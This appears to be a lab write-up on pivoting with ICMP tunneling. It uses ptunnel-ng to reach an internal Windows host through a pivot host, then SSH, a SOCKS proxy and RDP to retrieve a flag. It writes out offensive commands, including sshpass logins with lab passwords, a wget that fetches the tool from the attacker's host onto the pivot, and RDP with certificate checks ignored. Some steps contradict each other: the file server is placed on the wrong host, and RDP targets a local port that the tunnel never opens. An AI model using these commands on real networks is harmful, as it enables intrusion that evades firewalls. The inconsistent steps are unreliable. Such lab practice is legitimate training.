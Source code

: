 ```yaml
---
title: ICMP Tunneling with ptunnel-ng to Access Internal Windows Host
author: saramazal
date: 2025-06-18
categories: [Pivoting]
tags: [pivoting, tunelling, ptunnel-ng, rce, xfreerdp, ssh, sshpass, scp, python server,]     # TAG names should always be lowercase
img_path: /images/covers
image:
  path: /images/covers/pivoting.jpg
---
```


# 🛰️ ICMP Tunneling with ptunnel-ng & SOCKS: Pivot to WinTarget

In this lab, we demonstrate how to use `ptunnel-ng` to establish an ICMP-based tunnel from an **Attack Host** to a **Pivot Host**, and then pivot further to a **Windows Target** to retrieve a flag.

---

## 🔧 Environment Setup

```bash
# Set Environment Variables
export AttackHost=10.10.xx.xx
export PivotHost=10.129.xx.xx
export WinTargetIp=172.16.xx.xx

export username=ubuntu
export passwd='pivotpass123'

export winuser=winuser
export winpasswd='pass@123'
````

---

## 🐚 Access Pivot Host

```bash
# Using sshpass to connect
sshpass -p "$passwd" ssh $username@$PivotHost
```

---

## 🛠️ Clone & Build ptunnel-ng

```bash
# On Attack Host
git clone https://github.com/utoni/ptunnel-ng.git
cd ptunnel-ng/
sudo apt install automake autoconf -y

# Patch autogen.sh for static build
sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh

./autogen.sh
```

---

## 📦 Transfer to Pivot Host

```bash
# On Pivot Host:
python3 -m http.server 8123

# Serve files from Attack Host. On Pivot Host:
wget http://$AttackHost:8123/ptunnel-ng.tar.gz
tar -xvzf ptunnel-ng.tar.gz
```

Or using SCP:

```bash
# Serve files from Attack Host. On Pivot Host:
scp -r ptunnel-ng $username@$PivotHost:~/
```

---

## 📡 Start ptunnel-ng Server on Pivot

```bash
# On Pivot Host
cd ~/ptunnel-ng/src
sudo ./ptunnel-ng -r$WinTargetIp -R3389
```

---

## 🔁 Start ptunnel-ng Client on Attack Host

```bash
# On Attack Host
cd ptunnel-ng/src
sudo ./ptunnel-ng -p$PivotHost -l2222 -r$WinTargetIp -R3389
```

---

## 🧠 Connect via SSH or SOCKS

```bash
# Option 1: Direct tunnel to pivot (useful for shell)
ssh -p2222 -l$username 127.0.0.1

# Option 2: Dynamic SOCKS proxy
ssh -D 9050 -p2222 -l$username 127.0.0.1
```

---

## 🖥️ Access WinTarget via RDP

```bash
xfreerdp /v:127.0.0.1:3388 /u:$winuser /p:$winpasswd
```

If prompted with cert warnings, ignore them using:

```bash
xfreerdp /v:127.0.0.1:3388 /u:$winuser /p:$winpasswd /cert-ignore
```

---

## 🏁 Retrieve the Flag

Once connected to the desktop or through shell access, retrieve:

```
type C:\Users\winuser\Downloads\flag.txt
```

---

## ✅ Success!

You’ve successfully tunneled through ICMP from your Attack Box to the DC, bypassing traditional firewall rules. This technique is stealthy and powerful in restricted environments.

---

*Stay sneaky, stay ethical.* 🕶️

**~ Maz4l 🤺**